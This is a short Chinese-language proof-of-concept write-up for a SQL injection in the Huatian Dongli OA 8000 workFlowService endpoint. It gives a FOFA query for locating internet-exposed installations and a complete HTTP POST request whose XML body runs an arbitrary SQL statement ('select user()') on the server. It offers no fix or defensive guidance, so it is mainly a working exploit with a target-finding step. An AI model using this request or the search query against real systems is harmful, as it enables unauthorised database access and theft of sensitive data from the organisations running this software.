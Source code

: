 # 华天动力oa SQL注入

## 1.漏洞描述

华天动力OA 8000版 workFlowService接口存在SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 2.搜索语法

```plain
fofa：app="华天动力-OA8000"
```

## 3.漏洞复现

```plain
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

响应包显示如下

![image-20240613202648514](D:\py\POC\华天动力oa SQL注入\image-20240613202648514.png)
